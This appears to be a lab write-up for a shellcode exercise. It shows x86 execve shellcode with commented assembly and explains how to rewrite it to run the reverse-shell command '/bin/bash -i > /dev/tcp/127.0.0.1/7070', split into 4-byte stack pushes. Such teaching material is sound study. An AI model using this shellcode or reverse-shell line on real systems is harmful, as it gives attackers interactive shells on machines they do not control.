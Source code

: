 ## Task 7: Getting a Reverse Shell

To get a reverse shell, all we need is change somewhere in the shell code.

We need to split `/bin/bash -i > /dev/tcp/127.0.0.1/7070 0<&1 2>&1` and substitute code between line  1 and line 2,

that is:

```c
"\x31\xc0" // xorl %eax, %eax : eax = 0
"\x50" // pushl $eax : 0 marks the end of a string
"\x68""bash" // pushl "bash"
"\x68""////" // pushl "////" : "////" is equivalent to "/"
"\x68""/bin" // pushl "/bin"
"\x89\xe3" // movl %esp, %ebx : Save the string address to ebx
// Push "-ccc" into stack.
"\x31\xc0" // xorl %eax, %eax " eax = 0
"\x50" // pushl $eax : 0 marks the end of a string
"\x68""-ccc" // pushl "-ccc" : "-ccc" is equivalent to "-c"
"\x89\xe0" // movl %esp, %eax : Save the string address to eax
// Push "/bin/rm /tmp/myfile " into stack.
"\x31\xd2" // xorl %edx, %edx : edx = 0
"\x52" // pushl %edx : 0 marks the end of a string
"\x68""ile " // pushl "ile " ➀
"\x68""/myf" // pushl "/myf"
"\x68""/tmp" // pushl "/tmp"
"\x68""/rm " // pushl "/rm "
"\x68""/bin" // pushl "/bin" ➁
"\x89\xe2" // movl %esp,%edx : Save the string address to edx
"\x31\xc9" // xorl %ecx, %ecx
"\x51" // pushl %ecx : argv[3] = 0
"\x52" // pushl %edx : argv[2] = address of "/bin/rm ..."
"\x50" // pushl %eax : argv[1] = address of "-c"
"\x53" // pushl %ebx : argv[0] = address of "/bin/bash"
"\x89\xe1" // movl %esp, %ecx : Save argv[]’s address to ecx
"\x31\xd2" // xorl %edx, %edx : Let edx = 0
"\x31\xc0" // xorl %eax, %eax
"\xb0\x0b" // movb $0x0b, %al : 0x0b is execve()’s number
"\xcd\x80" // int 0x80 : Invoke the execve() system call
```

We can split that command into:

```shell
\x68/bin
\x68/bas
\x68h -i
\x68 > /
\x68dev/
\x68tcp/
\x68127.
\x680.0.
\x681/70
\x6870 0
\x68<&1 
\x682>&1
```
